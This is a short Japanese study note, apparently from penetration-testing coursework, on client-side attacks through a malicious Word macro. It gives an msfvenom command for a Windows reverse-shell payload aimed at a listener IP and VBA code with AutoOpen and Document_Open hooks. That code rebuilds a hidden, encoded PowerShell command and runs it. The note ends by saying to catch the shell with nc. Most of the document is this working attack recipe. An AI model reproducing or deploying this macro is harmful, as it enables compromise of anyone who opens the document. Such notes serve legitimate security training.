 # CllentSideAttack

[toc]

### wordにマクロを含んでリバースシェルを取得

* マクロ用のpowershellリバースシェルを作成する

  ```bash
  sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.132 LPORT=4444 -f psh-cmd
  ```

* マクロを作成する

  * wordを開き、view→macroを選択する

  * mymacroを作成し以下を追加する

    ```vb
    Sub AutoOpen()
    
      MyMacro
      
    End Sub
    
    Sub Document_Open()
    
      MyMacro
      
    End Sub
    
    Sub MyMacro()
    
      Dim Str As String
      <msfvenomで作成し,pythonで50文字ずつに分割した文字列>
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      ・・・
      CreateObject("Wscript.Shell").Run Str
        
    End Sub
    ```

  * マクロはdocもしくはdocmのみで有効であるため保存する拡張子に留意

  * wordを保存し再度開く。マクロを有効にするボタンがwordファイル上部に表示されること

  * マクロは全体ではなくdocのプロジェクト自体に紐づけるとよい

    ![image-20230202082430710](img/ClientsideAttack/image-20230202082430710.png)

* ncでリバースシェルを待ち受ける